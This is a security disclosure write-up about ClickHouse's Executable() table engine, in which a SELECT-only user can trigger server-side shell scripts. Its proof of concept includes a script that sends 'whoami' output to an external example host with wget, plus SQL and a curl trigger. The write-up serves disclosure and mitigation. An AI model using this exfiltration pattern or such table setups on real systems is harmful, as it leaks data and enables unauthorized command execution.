 ## ClickHouse Executable Table Abuse by Low Privilege User

#### Date: 2025-06-19  
#### Exploit Author: Seth Kraft  
#### Vendor Homepage: https://clickhouse.com/  
#### Vendor Changelog: https://github.com/ClickHouse/ClickHouse/blob/master/CHANGELOG.md  
#### Software Link: https://github.com/ClickHouse/ClickHouse  
#### Version: 25.7.1.557 (official build)  
#### Tested On: ClickHouse 25.7.1 (default configuration, Ubuntu 24.04)  
#### CWE: CWE-250 (Execution with Unnecessary Privileges)  
#### CVSS Base Score: 6.0 
#### Vector String: `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:L` 
#### Type: Authenticated OS Command Execution via Executable Table  
#### Exploit Risk: Medium  
---

## Authorization
**For research and authorized testing only.** Please do not use against systems without permission.

The issue was reviewed by the ClickHouse team and explicitly approved public disclosure of this write-up.

---

## Summary

ClickHouse allows table definitions using the `Executable()` engine, which runs system-level commands on `SELECT`. 

A low-privileged user with only `SELECT` rights can trigger these commands if an `Executable()` table is pre-created by a higher-privileged user. 

This enables authenticated OS command execution resulting in a privilege escalation vector.

---
## Details

ClickHouse’s `Executable` table engine allows tables to be backed by the output of shell scripts. 

```sql
CREATE TABLE rce_test (
    output String
) ENGINE = Executable('/var/lib/clickhouse/user_scripts/leak.sh', 'TSV');
```

Each `SELECT` query against this table executes the referenced script on the server.

---

## Proof of Concept

#### 1. **Prepare Bash Script For Abuse**

As a privileged user, create a bash script in `/var/lib/clickhouse/user_scripts/` that will later be abused by a low privileged user.

##### Script Name: `leak.sh`
```bash
#!/bin/bash
wget -q http://example.com?data=$(whoami)
```
> Note: This script will leak the `whoami` result to an external host when executed.

---

#### 2. **Create Executable Table**

Create the following table in the database as a privileged user.  This table will later be abused by the low privileged user.

```sql
CREATE TABLE rce_test (
    output String
) ENGINE = Executable('/var/lib/clickhouse/user_scripts/leak.sh', 'TSV');
```

---

#### 3. **Create Low-Privileged User**

```sql
CREATE USER lowpriv IDENTIFIED BY 'p@ssw0rd';
GRANT SELECT ON *.* TO lowpriv;
```

#### 4. Verify Low Privilege User Permissions:

```sql
SHOW GRANTS FOR lowpriv;
```

Expected output:

```text
GRANT SELECT ON *.* TO lowpriv
```
![image](https://github.com/user-attachments/assets/a69ea771-8f46-4723-aad3-b0e9f5888ae7)

---

#### 4. **Trigger Execution as Low-Privileged User**

```bash
curl 'http://localhost:8123/?user=lowpriv&password=p%40ssw0rd&query=SELECT+*+FROM+rce_test;'
```
> Note: URL encoding was used due to a special character in the password field

The external host will receive a request — proving that `lowpriv` was able to trigger OS-level execution via `SELECT` query.
![Screenshot 2025-06-18 234909](https://github.com/user-attachments/assets/b65fc5a5-3bca-40a6-8a41-9c93d2458e8f)

---

### Impact

* **Vulnerability Type:** Execution with Unnecessary Privileges (CWE-250).
* **Who Is Affected:** Environments that use `Executable()` tables and allow `SELECT` access broadly (including BI/reporting users).
* **Impact:** Authenticated users with no command execution or write access can still leverage pre-created command definitions.

---

### Mitigation / Recommendation

* **Restrict access** to any `Executable()` tables via granular `GRANT` controls — avoid granting `SELECT` on these objects to untrusted users.
* **Avoid creating `Executable()` tables** that point to sensitive or impactful scripts unless absolutely necessary.
* **Monitor and audit** access to the `user_scripts` directory and `Executable()` table usage.
* Consider adding a **configuration flag or privilege check** in ClickHouse to restrict execution of `Executable()` tables to specific roles.

Until stricter controls are implemented upstream, the burden of protection falls on administrative hygiene and access control discipline.

---

### Disclosure Details

- This security flaw was reported to ClickHouse via Github Security Report feature on 2025-06-19.
- ClickHouse team reviewed and responded to my report within the same day. (Kudos to ClickHouse team!)
- The vendor deemed the behavior as "expected" and declined to treat the report as an applicable vulnerability.
- No fix is planned, but public disclosure was explicitly permitted.

I included our correspondence below for transparency and learning purposes.  

![image](https://github.com/user-attachments/assets/34699007-930d-4cdd-90d7-51222c7330b8)
